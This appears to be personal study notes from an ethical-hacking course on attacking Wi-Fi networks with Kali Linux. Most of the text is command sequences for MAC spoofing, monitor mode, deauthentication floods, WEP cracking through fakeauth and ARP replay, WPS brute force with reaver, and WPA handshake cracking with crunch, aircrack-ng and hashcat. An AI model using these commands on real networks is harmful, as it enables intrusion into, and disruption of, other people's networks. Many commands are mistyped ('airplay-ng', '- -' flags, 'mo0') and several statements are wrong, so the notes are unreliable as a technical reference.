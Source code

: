 
**INSTALLATION**
install link for kalilinux - https://zsecurity.org/download-custom-kali/
unzip it
Go to vm ware, file -open -this unzipped file
check settings
run
**LINUX BASIC COMMANDS:**
pwd
ls    ls -l
cd   cd ..
man ls (or )man cd  ls --help -> helps in detail
tab -> auto complete
apt-get    -> donwload or install progs (or) apps
apt-get update
apt-get install app_name -y
**NEEDED APPS:**    (apt-get install terminator)
terminator  - spliting option in terminal
**WEBSITES:**
explainshell.com


## PRE CONNECTION SETUP KNOWLEDGE
<span style="color:blue">some *blue* text</span>.

#### wireless adapter with props:- ####
monitor mode
packet injection
AP mode
Recommended brand: Atheros AR9271, Realtek RTL8812AU

eth0 and lo
after connecting to machine
cmd- ifconfig
eth0 lo and wlan0

MAC-media access control     (network device address )    which will be same in all computers
permanent, physical, unique    (assigned by manufacturer to network interafces like wifi, wifi card,wifi adapters,wired)
contains source mac and destination mac
change MAC address to become anonymous    
Uses: Bypass filter, anonymity

**Network Interfaces**
<p>network interface – any device allowing us to connect to a network
inside eth0 or wlan0 or lo ether _______________>mac address of the network interface if not connected to any network ether is not shown and unspec (first 12 digits without :) in monitor mode
ifconfig -> show all interfaces
iwconfig → show all wireless network interfaces</p>

#### Change MAC address
ifconfig wlan0 down    →  for disabling before the change process
ifconfig wlan0 hw ether 00:11:22:33:44:55                (after restart get resetted)
ifconfig wlan0 up

device1 MAC accept data only If the device2 have its destination MAC as  device1   
default mode for network devices is managed mode   (captures packets only from destination mac address )
Eg:source mac address: 00:11:22:3
     destination mac address : 00:55:34:56
can do monitor using monitor mode    (captures packets from any destination address almost all)
	iwconfig wlan0 down 
	iwconfig wlan0 mode monitor
	iwconfig wlan0 up
attacks don't need any internet connection


### PACKET SNIFFING
**aircrack-ng**
> airodump-ng mon0      → shows the packets
most of the wifi adapter only communicates with 2.5ghz frequency

ESSID      name
BSSID      mac_address
PwR    signal strength
#/s      data collected per second
CH     works on channel
MB    maximum speed
ENC   encryption mode
AUTH   authentication used
airodump-ng   - -band a mon0            shows 5G networks tooo
airodump-ng  - - bssid  11:21:G6:14   - -channel  2  - - write  filename   mon0 
ctr C     ( to stop)


### Deauthentication 
To pretend as client having its mac address
To pretend like router having its mac address and disconnecting all networks
**airplay-ng**
>airplay-ng  - -deauth  100000000 -a target_router_mac_address  -c client_mac_address  mo0   (mac_address info is taken from airodump-ng)
>ctr  C    to stop

## GAINING ACCESS: 

### WEP CRACKING
The client encrypts the data with a unique key and sends in air to the router
This router decrypts the data using same key.
Initial vector + passsword =  keystream
keystream + “this is the message”  →  cnu3dhubd   (encoded)
router always have the key but not Initial vector(IV)
IV is only 24bits so it repeats it again and again without creating unique key

Methods
airodump-ng   to capture all packets/IVs
aircrack-ng      to analyze the IVs and crack the key
> airodump-ng  - - bssid  target_mac  - -channel  2  - - write  filename   mon0 
filename.cap is the file
> aircrack-ng filename.cap 
prompts key found!  23:42:23:A2
put the password in wifi as 234223A2  done

##### Fakeauth attack
-a for accknowledge must do before all attacks
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac

#### Arp request reply attack
if the router or wifi is not having more data passed, it can't be cracked,so need to inject more packages with aireplay
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac   (ACK for telling we are connecting to the netw interface )
>airodump-ng  - - bssid  target_mac  - -channel  2  - - write  file_name  mon0
>aireplay-ng  - -arpreplay -b target_mac -h my_mac mon0        check data value in info
>aircrack-ng filename.cap
or 

#### Korek ChopChop Attack   (refer somewhere)
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac  
>airodump-ng  - - bssid  target_mac  - -channel  2  - - write  file_name  mon0
>aireplay-ng - -chopchop -a target_mac -h my_mac
>packetforge-ng -0...............
…..........
or
#### Fragmentation Attack (refer somewhere)

### WPA AND WPA2 CRACKING

wpa and wpa2 have the wps push button enabled or disable which is useful in cracking.
This wps feature can be found by
wash  - - interface mon0
Lck   tells locked or not
it may fail if the target router has PBC(push button auth) or wps disabled

>reaver - -bssid  target_mac - -channel 1 - -interface mon0 -vvv - -no-associate
paralleley add the down cmd
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac

when PBC(push button auth) or wps disabled, use the following method 
>airplay-ng  - -deauth  4 -a target_router_mac_address  -c client_mac_address  mon0   (use –deauth 4 so that client don't identify they are disconnected)

**Create word list:**
crunch
>crunch 6 8 abctd123$@ -o pass.txt
6 min combinations
8 max combinations
abctd123$@ combinations to use 

>aircrack-ng handshake.cap  -w pass.txt
done :)

**Pairwise Master Key** from word list (faster than previous)
>airolib-ng test-db  - -import password pass.txt
create a text file with essid 
>airolib-ng test-db  - -import essid essid.txt
>airolib-ng test-db –batch
done :)

>aircrack-ng -r test-db handshake.cap  
done :)

**Hashcat** (use GPU - fastest cracking ) in windows      
download converted file of .cap to .hccapx and add it in hashcat dir
add pass.txt in hashcat dir
>hashcat64.exe -I          shows cpu and gpu info
>hashcat64.exe -m 2500 -d 1 handshake.hcapx pass.txt
m - wpa/wpa2 hash 
d -  which device to use

